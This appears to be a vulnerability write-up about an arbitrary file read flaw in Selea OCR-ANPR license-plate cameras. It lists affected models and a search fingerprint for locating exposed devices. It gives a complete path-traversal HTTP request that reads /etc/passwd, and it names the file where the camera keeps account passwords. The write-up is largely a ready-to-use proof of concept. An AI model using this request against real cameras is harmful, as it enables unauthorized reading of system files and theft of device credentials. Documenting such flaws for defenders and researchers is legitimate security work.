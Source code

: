 # Selea OCR-ANPR Camera SeleaCamera Arbitrary File Reading Vulnerability

## Vulnerability Description

Selea OCR-ANPR camera SeleaCamera has an arbitrary file reading vulnerability, and an attacker reads the server's files by constructing a specific Url.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera iZero</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 512</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 504</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 805</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 750</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"selea_httpd"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/sel-1-20220314122220850.png)



Send the following request packet to read the file



```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/sel-2.png)



The camera account password file is `mnt/data/auth/users.json`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/sel-3.png)